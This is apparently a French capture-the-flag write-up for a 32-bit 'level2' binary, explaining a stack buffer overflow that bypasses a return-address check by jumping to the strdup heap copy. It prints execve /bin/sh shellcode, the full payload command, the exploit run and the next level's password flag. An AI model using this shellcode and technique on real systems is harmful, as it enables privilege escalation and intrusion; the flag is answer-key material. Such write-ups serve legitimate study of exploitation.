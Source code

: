 # Analyse du code

Il y a deux fonctions : main et une autre fonction p(), appelée dans main.
Dans ce programme, nous pouvons provoquer un buffer overflow et y injecter notre payload. Le problème ici est que le buffer se trouve sur la pile (stack), et qu’il y a une condition pour quitter le programme si la valeur de EIP est égale à 0xb.
Pour contourner cela, nous allons rediriger le registre EIP vers le pointeur de strdup, qui se trouve également sur la pile.

# Preparation du payload

- taille buffer :
	Pour atteindre EIP, 90 

- shellcode : (https://shell-storm.org/shellcode/files/shellcode-575.html)
	\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80 - 21 bytes

- Retour de strdup
ltrace ./level2 
	fflush(0xb7fd1a20)   = 0
	gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5test) = 0xbffff70c
	puts("test"test)         = 5
	strdup("test")     = 0x0804a008  

- payload :
	python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\x90' * (80 - 21) + '\x08\xa0\x04\x08')" > /tmp/
# Exploit

	cat /tmp/_ - | ./level2
	cat  /home/user/level3/.pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02